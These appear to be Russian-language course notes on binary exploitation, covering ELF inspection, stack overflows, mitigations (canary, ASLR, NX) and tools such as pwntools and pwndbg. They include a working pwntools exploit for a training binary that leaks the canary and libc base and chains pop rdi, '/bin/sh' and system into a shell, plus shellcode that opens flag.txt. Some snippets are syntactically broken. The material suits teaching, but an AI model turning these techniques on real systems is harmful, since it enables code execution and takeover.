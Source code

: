 `/bin/ls` 
```
/bin/ls: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aeeee2e0bb6f07d85659890089641491b489cd92, for GNU/Linux 3.2.0, stripped
```
stripped - означает, что у него обрезанная дебажная инфа

`readelf -h /bin/ls`  - дает больше инфы о файле
`readelf -a` - дает ещё БОЛЬШЕ инфы

Проблема переполнения стэка в функции check от sudo:
![](https://i.imgur.com/j447x0T.png)
Так как стэк растет к младшим битам, мы можем перезатереть адрес возврата, поэтому могут воникнуть прооблемы.

### Уязвимость RCE
Можем передать программе, например через запись в пароль опасный машинный код, который может делать что-то страшное, например увеличение привелегий.
Какие это порождает уязвимости:
1) lpe - ping
2) rce - nginx, chrome, tcpdump, imagemagic
3) VM/Sandbox escape - VirtualBox, docker
4) Memory leak - openssl heartbleed

Фикс уязвимости check sudo:
1) на стэк кладется какая то оргиниальная рандомная запись до и после значения пользователя
2) в конце исполнения функции будет проверяться изменилось ли это значение.
Этот фикс не сработал например для процесса, который форкается, то есть не обновляется канарейка (NGINX)

Фикс 2:
	Рандомизированное виртуальное окружение
Фикс 3:
	полностью размеченная память на чтение и запись

Ещё уязвимости:
1) Уязвимость Use After Free - это когда мы как то почистили область памяти, но на нее все ещё существует указатель, который на неё ссылается, а потом создали указатель на это место и туда что-то записали. Проблема, два указателя указывает на одно место в памяти.
2) Уязвимость переполнение uint - при переполнении мы попадем в 0.

## Инструменты для бинарной эксплотации
`pwntools` - либа для питона 
`pwndbg` - плагин для gdb, можно смотреть что лежит на стэке и тд.
`binary.ninja` - перевод машинного выхлопа в асемблерный код, или даже в Сишный код

```python
from pwn import *
def main():
	r.process('./main') #бинарь
	gdb.attach(r)
	r.send(b'A' * 0x80 + )

	r.interactive()
```
proc fs - виртуальная файловая система, которая хранить инфу о всех процессах

Уязвимость хотим в бинаре выполнить команду: system("/bin/bash")

Утилита ROPgadget - декомпиляция бинаря с любого момента
`ldd ./main` - можно посмотреть каким библиотеками используется бинарь (хотим найти sysstem), но возникнет проблема рандомного обновления виртуального окружения. 
`nm -a /lib64/lib.c.so | grep system` - вычисление адреса функции в либе
```python
from pwn import *
def main():
	r.process('./main') #бинарь
	gdb.attach(r)
	r.send(b'A' * 0x90 + b'B' * 8 + b'C' * 8)
	r.recvuntil(b'C' * 8)
	
	addr = r.recv(6) + b'\0\0' # 6, потому что 6 байт генерятся рандомно для 
	
	print(f"{hex(u64(addr)) = }")	
	r.interactive()
```
ТО есть програмой мы ликаем адрес и с помощью vmmap получаем что это за адрес.

Получение offset функции system в libc
```python
libc = ELF('/lib64/lib.so.6')
system_offset = libc.symbols['system']
```
Аналогично находим `/bin/bash`

Теперь с помощью адреса библиотеки из предыдущего шага и offset мы можем в прогрумму(в регистр rdi) положить `system(/bin/bash)`
```python
# 0x0000... : pop rdi ; ret
pop_rdi = libc_base + 0x0000...

p = b'A' * 0x90  p64(pop_rdi) +  p64(bin_sh_addr) + p64(system_addr)
r.send(p)
```

### Follow up
Тулинга который мы для этого использовали:
- tmux (эмулятор терминала в котором очень удобно делить экран пополам, есть поиск по тексту, и всё такое)
- **х** (декомпилятор в котором я работал)
- gdb (дебаггер, в котором мы смотрели на то как исполняется наш бинарник. считаю, что каждый человек на земле обязан уметь им пользоваться, как минимум ставить breakpoint_ы, шагать по программе по одной инструкции и печатать значения по адресам)
- pwntools (python библиотека для написание эксплоитов)
- pwndbg (плагин для красивого GDB)

Сегодня также поговорили про митигации уязвимостей, в частности:
- NX-bit в linux/DEP тоже самое в винде
- ASLR (механизм рандомизации памяти)
- Канарейка на стеке

Также обещал вам скинуть дополнительно:
- про GWP ASan (https://www.youtube.com/watch?v=-RlxhU-W8dY) и как им нашли 500 багов в хроме
- и вообще неплохо знать что такое и как он работает Address Sanitizer (https://github.com/google/sanitizers/wiki/addresssanitizer)

Полезные ссылки
https://xakep.ru/2016/08/18/shellcode-nix-x64/


0x794bef5288068500



RAX  0xfffffffffffffe00

****0x3e8**



### Password check
![](https://i.imgur.com/L4cd9HQ.png)
0xb0 байт - под локальные переменные


```
data = b'A'*176 + b'B' * 8 + b'C'

Input password: password "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBC\x10@" is invalid!
```



```python
    sleep(1) 
    data = b'A'*136 + b'A'*63 + b'C'  
    r.send(data)
    r.recvuntil(b'A'*63 +b'C')
    some_data = r.recv(6) + b'\0\0' 
    print("some: ",hex(u64(some_data)))
```
нашли что-то из libc
![](https://i.imgur.com/ST0AdpM.png)
```python
from pwn import *    
  
context.terminal = ["tmux", "splitw", "-v"]  
def main():   
    #r = remote("is-course.ru", 2405) 
    r = process("./check")  
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') 
    bin_sh_offset = next(libc.search(b'/bin/sh\0'))
    system_offset = libc.symbols['system']   
    #bin_sh_offset = 1934968
    #system_offset = 331120   
    gdb.attach(r)    
    data = b'A'*136 + b'A'
    r.send(data)
  
    r.recvuntil(b'A' * 137) 
    canary_leak = r.recv(7) 
    print("cenary for stack: ", (canary_leak + b'\0').hex())
    print("cenary",hex(u64(canary_leak + b'\0'))) 
    
    sleep(1)  
    data = b'A'*136 + b'A'*63 + b'C'  
    r.send(data)
    r.recvuntil(b'A'*63 +b'C')
    libc_addr = u64(r.recv(6) + b'\0\0') 
    print("libc_addr: ",hex((libc_addr)))
    libc_base = libc_addr - 0x29d90
    system_addr = libc_base + system_offset
    print("system_addr: ",hex((system_addr)))

    # 0x000000000002a745 pop rdi ; pop rbp ; ret
    # 0x000000000002a3e5 : pop rdi ; ret
    pop_rdi = libc_base + 0x000000000002a745
    print("pop_rdi: ",hex((pop_rdi)))

    bin_sh = libc_base + bin_sh_offset
    print("bin_sh: ",hex((bin_sh)))
    
    sleep(1)
    data = b'A'*136 + bytes(1) + canary_leak + b'A'*8 +  p64(pop_rdi) +  p64(bin_sh) + p64(system_addr)
    r.send(data)
    r.interactive()


if __name__ == '__main__':
    main()

```
## Universal gadget
https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2csu


```
    mov rdi, rax        ;
    mov rsi, rax        ;

    mov rax, 0x1F       ; 

    syscall              ;

    xor esi, esi ;
    mul esi;

    xor rdx, rdx ;
    push rdx;

    mov rcx, 0x7478742e67616c66 ; 'flag.txt' push rcx
    push rcx;
    mov rcx, 0x2f2f2f2f2f2f2f2e ; './////////// push rcx
    push rcx;

    push rsp;
    pop rdi;
    mov al, 0x2 
    syscall
```